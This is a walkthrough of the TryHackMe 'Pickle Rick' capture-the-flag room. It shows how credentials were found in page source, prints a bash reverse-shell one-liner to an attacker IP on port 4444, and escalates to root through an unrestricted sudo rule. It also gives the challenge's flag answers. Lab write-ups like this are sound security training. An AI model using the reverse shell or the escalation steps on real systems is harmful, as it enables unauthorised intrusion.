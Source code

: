 ```yaml
---
title: "Pickle Rick CTF - TryHackMe"
category: "THM"
pubDate: 2020-05-19
description: "Writeup for the Pickle Rick CTF on TryHackMe"
---
```

[TryHackMe | Pickle Rick CTF](https://tryhackme.com/room/picklerick)

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

### Setup

![](https://imgur.com/rM9j9mn.png)

```
Note to self, remember username!

Username: R1ckRul3s
```

![](https://imgur.com/lUU7tXN.png)

```
Maybe a password ?
Wubbalubbadubdub
```

![](https://imgur.com/xtHHGaE.png)

```
Account:
R1ckRul3s:Wubbalubbadubdub
```

### #1 Deploy the virtual machine on this task and explore the web application. What is the first ingredient Rick needs?

![](https://imgur.com/1vWZUA9.png)

```
cat Sup3rS3cretPickl3Ingred.txt
```

![](https://imgur.com/J5cZERN.png)

Let's try something else then ...

[bash | GTFOBins](https://gtfobins.github.io/gtfobins/bash/)

```
bash -c 'exec bash -i &>/dev/tcp/10.9.2.228/4444 <&1'
```

```
www-data@ip-10-10-91-207:/var/www/html$ ls
ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
www-data@ip-10-10-91-207:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

### #2 Whats the second ingredient Rick needs?

When you are in root you can't cd in the directory so I used the less command like so.

```
less /home/rick/"second ingredients"
1 jerry tear
```

### #3 Whats the final ingredient Rick needs?

```
www-data@ip-10-10-91-207:/var/www/html$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-91-207.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-91-207.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-91-207:/var/www/html$ sudo su
cd /root/
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice
```


